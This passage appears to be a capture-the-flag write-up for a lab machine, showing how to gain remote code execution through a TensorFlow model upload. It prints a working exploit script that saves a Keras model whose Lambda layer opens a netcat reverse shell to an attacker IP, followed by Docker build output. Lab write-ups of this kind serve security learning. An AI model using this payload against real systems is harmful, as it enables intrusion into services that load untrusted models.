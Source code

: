 ![](images/Pasted%20image%2020250712013052.png)
They looks like a target of RCE for us.

# TensorFlow RCE 
Let's follow the article of this link
```
https://splint.gitbook.io/cyberblog/security-research/tensorflow-remote-code-execution-with-malicious-model#getting-the-rce
```
We need to make the exploit.py to create a malicious model to upload
```
import tensorflow as tf

def exploit(x):
    import os
    os.system("rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.16 6666 >/tmp/f")
    return x

model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save("exploit.h5")

```
In this place, there is a problem with kali-linux, the version of python is 3.13.But for tensorflow, it only support below 3.10.

So the best way is to use the docker environment provided.
```
[root@kali] /home/kali/Artificial  
❯ docker build -t my-tf-image .
[+] Building 63.8s (8/8) FINISHED                                                                                                docker:default
 => [internal] load build definition from Dockerfile                                                                                       0.0s
 => => transferring dockerfile: 540B                                                                                                       0.0s 
 => [internal] load metadata for docker.io/library/python:3.8-slim                                                                        15.0s 
 => [internal] load .dockerignore                                                                                                          0.0s
 => => transferring context: 2B                                                                                                            0.0s 
 => [1/4] FROM docker.io/library/python:3.8-slim@sha256:1d52838af602b4b5a831beb13a0e4d073280665ea7be7f69ce2382f29c5a613f                   0.0s 
 => CACHED [2/4] WORKDIR /code                                                                                                             0.0s 
 => CACHED [3/4] RUN apt-get update &&     apt-get install -y curl &&     curl -k -LO https://files.pythonhosted.org/packages/65/ad/4e090  0.0s 
 => [4/4] RUN pip install ./tensorflow_cpu-2.13.1-cp38-cp38-manylinux_2_17_x86_64.manylinux2014_x86_64.whl -i https://pypi.mirrors.ustc.  43.3s 
 => exporting to image                                                                                                                     5.5s 
```